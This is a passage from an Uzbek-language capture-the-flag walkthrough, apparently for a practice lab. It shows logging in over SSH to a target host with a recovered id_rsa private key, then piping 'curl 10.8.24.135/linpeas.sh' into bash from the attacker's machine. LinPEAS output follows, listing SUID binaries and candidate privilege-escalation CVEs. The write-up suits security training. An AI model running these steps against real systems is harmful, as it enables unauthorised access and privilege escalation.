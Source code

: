 o'qiy oldik ham endi id_rsa fayli ichidagi keyni o'zimizni kompyuterga olamiz. 

```
mete@sec ~/T/T/1006-2025> nano id_rsa
```

Endi bunda permession berishimiz kerak.

```
mete@sec ~/T/T/1006-2025> chmod 600 id_rsa
```

Endi bog'lanishga urinamiz.

```
ssh -i id_rsa think@10.10.252.203
```

Ishladi!



Ana endi Linpeas.sh ni vaqti...

Ushbu buyruq bilan ishga tushiramiz:

```
curl 10.8.24.135/linpeas.sh | bash
```

Sababi yuklab olish bo'yicha ruxsat yo'q ekan.
Bizni qiziqtirgan hisobot:

```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 467K Apr 11 12:16 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-sr-x 1 root root 17K Nov 14  2023 /usr/sbin/run_container (Unknown SUID binary!)
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 67K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 31K Feb 21  2022 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 39K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
```
